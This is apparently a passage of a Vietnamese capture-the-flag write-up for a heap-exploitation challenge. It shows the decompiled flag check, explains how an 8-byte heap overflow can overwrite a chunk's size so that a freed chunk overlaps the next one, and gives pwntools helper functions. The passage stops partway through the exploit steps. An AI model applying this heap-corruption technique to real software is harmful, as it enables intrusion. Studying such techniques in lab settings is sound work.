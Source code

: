 ```c
}
```

- check : hàm này sẽ là target của bài , check xem giá trị ở chunk được malloc + 32 có bằng ```0xDEADBEEFCAFEBABELL``` , nếu có thì ta có flag



```C
int check()
{
  if ( *((_QWORD *)malloc(0x30uLL) + 4) != 0xDEADBEEFCAFEBABELL )
    return puts("[!] You have failed to prove your worth.");
  puts("[*] Glory to you! The gates of Valhalla open for you:");
  return system("/bin/cat flag.txt");
}
```

ngoài ra còn 1 hàm win nữa nhưng có lẽ sẽ không dùng đến 

### EXPLOIT 

- ở bài này ta có heapoverflow và được overflow 8 bytes và target là khi malloc(0x30) lại thì dữ liệu chunk đó tại +32 sẽ bằng với ```0xDEADBEEFCAFEBABELL``` và ta chỉ được malloc 3 chunk

ta sẽ ví dụ thế này 

A->B->C , ở đây ta sẽ cần overwrite size của chunk B và ghi dữ liệu vào chunk C

khi free() thì ta sẽ free() chunk B và chunk B lúc này bao gồm chunk B và chunk C và chunk B sẽ ở unsorted-bin để khi ta malloc lại thì nó sẽ lấy đúng cái đoạn cần so sánh 

setup : 

```python
def alloc(size):
    io.sendlineafter(b"fate:", b"1")
    io.sendlineafter(b"warrior:", str(size).encode())

def free(idx):
    io.sendlineafter(b"fate:", b"2")
    io.sendlineafter(b":", str(idx).encode())

def write(idx, data):
    io.sendlineafter(b"fate:", b"3")
    io.sendlineafter(b":", str(idx).encode())
    io.sendafter(b":", data)

def check():
    io.sendlineafter(b"fate:", b"4")
```


- flow sẽ thế này , đầu tiên sẽ malloc 3 chunk

A->B->C

- tiếp theo là sửa đổi dữ liệu chunk A để overflow size của chunk B và sửa dữ liệu chunk C giống target 
